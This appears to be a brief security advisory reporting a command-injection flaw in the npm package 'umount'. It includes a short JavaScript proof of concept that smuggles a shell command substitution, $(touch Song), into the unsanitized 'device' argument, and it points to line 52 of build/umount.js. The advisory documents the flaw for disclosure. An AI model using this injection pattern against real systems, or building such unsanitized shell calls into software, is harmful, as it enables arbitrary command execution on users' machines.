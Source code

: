 # Overview

umount is a device in UNIX, do nothing in Windows, this package are vulnerable to Command Injection.

The argument device can be controlled by users without any sanitization.

# Proof of Concept

```
var root = require("umount");
var device = '\" \$(touch Song) \"';
root.umount(device, function(){});
```

The injection point is located in line `52` of index file `build/umount.js` in the exported function `umount(device, callback)`.
